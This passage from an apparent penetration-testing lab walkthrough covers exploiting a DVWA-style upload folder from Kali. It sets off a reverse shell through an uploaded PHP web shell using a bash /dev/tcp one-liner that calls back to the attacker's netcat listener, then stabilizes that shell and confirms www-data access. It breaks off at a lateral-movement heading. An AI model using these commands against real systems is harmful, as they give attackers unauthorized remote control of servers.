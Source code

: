 **Triggering Reverse Shell:**
```bash
┌──(kali㉿kali)-[~]
└─$ curl "http://192.168.148.100/hackable/uploads/shell.php?cmd=bash%20-c%20'bash%20-i%20>%26%20/dev/tcp/192.168.148.99/4444%200>%261'"
```

**Reverse Shell Connection:**
```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.148.99] from (UNKNOWN) [192.168.148.100] 45678
bash: cannot set terminal process group (1234): Inappropriate ioctl for device
bash: no job control in this shell
www-data@debian:/var/www/html/hackable/uploads$
```

### Step 3.6: Shell Stabilization - Full Process

**Stabilization Steps with Output:**
```bash
www-data@debian:/var/www/html/hackable/uploads$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@debian:/var/www/html/hackable/uploads$ export TERM=xterm
www-data@debian:/var/www/html/hackable/uploads$ export SHELL=bash
www-data@debian:/var/www/html/hackable/uploads$ ^Z
[1]+  Stopped                 nc -lvnp 4444

┌──(kali㉿kali)-[~]
└─$ stty raw -echo && fg
nc -lvnp 4444

www-data@debian:/var/www/html/hackable/uploads$ stty rows 38 columns 116
www-data@debian:/var/www/html/hackable/uploads$ clear
```

**Verification of Stable Shell:**
```bash
www-data@debian:/var/www/html/hackable/uploads$ whoami
www-data
www-data@debian:/var/www/html/hackable/uploads$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@debian:/var/www/html/hackable/uploads$ pwd
/var/www/html/hackable/uploads
```

---

## Phase 4: Lateral Movement

### Step 4.1: Password Attack Preparation

**Creating Targeted Wordlists:**
